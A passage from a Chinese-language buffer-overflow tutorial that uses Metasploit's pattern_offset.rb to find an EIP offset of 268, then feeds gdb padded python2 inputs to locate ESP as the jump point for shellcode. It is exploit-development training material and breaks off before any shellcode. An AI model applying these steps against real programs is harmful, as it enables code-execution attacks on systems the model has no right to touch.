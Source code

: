 获得地址：`0x6a413969`

3）获得偏移量

利用pattern_offset.rb，找偏移量：

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 6a413969
```

```bash
└─# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 6a413969
[*] Exact match at offset 268
```

获得偏移量为268

### 2、查找ESP的溢出地址

前面找到偏移量后，可以知道栈空间大小占据空间位置，接下来找到跳板地址也就是ESP，就可以跳到恶意代码shellcode位置！

1）print写入268个A和4个B，查找出EIP地址

```
r $(python2 -c 'print "A"*268 + "B"*4')
info r
```

<img src=".\图片\Snipaste_2023-06-29_16-50-15.png" alt="Snipaste_2023-06-29_16-50-15" style="zoom:80%;" />

继续获取ESP值。

2）获取ESP（下一跳值）

print写入268个A、4个B和20个C，查找出ESP地址：

```
r $(python2 -c 'print "A"*268 + "B"*4 + "C"*20')
```

